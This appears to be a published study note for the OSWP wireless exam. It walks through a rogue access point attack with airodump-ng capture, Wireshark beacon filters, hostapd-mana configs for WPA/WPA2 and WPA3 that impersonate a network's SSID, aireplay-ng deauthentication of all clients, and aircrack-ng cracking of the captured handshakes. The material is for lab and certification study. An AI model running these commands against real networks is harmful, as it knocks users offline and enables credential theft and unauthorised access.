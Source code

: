 ```yaml
---
{"dg-publish":true,"permalink":"/2-oswp/6-rouge-a-ps/"}
---
```


---------
### Walkthrough:
1. Set up capture:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
2. Open capture file in Wireshark
3. Filter for beacons:
```
wlan.fc.type_subtype == 0x08 wlan.ssid == "<name>"
```
4. Open "Tagged parameters"
5. Create a .conf file for hostapd-mana according to data:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211n=1
wpa=3 #3 for both wpa/wpa2, 2 for wpa2 only, 1 for wpa only
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP #wpa encryption setting
rsn_pairwise=TKIP CCMP #wpa2 encryption setting
mana_wpaout=<outfile>.hccapx
```
6. Start the AP:
```
sudo hostapd-mana file.conf
```
7. If necessary deauth all clients with a new wireless card:
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
8. Crack the hashes with hashcat or aircrack:
```
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

------
### WPA-3 conf:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211w=1
wpa=2
wpa_key_mgmt=WPA-PSK-SHA256
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=<outfile>.hccapx
```

### Alternative: Probe requests
Wireshark filter:
```
wlan.fc.type_subtype == 4 or wlan.fc.type_subtype == 5
```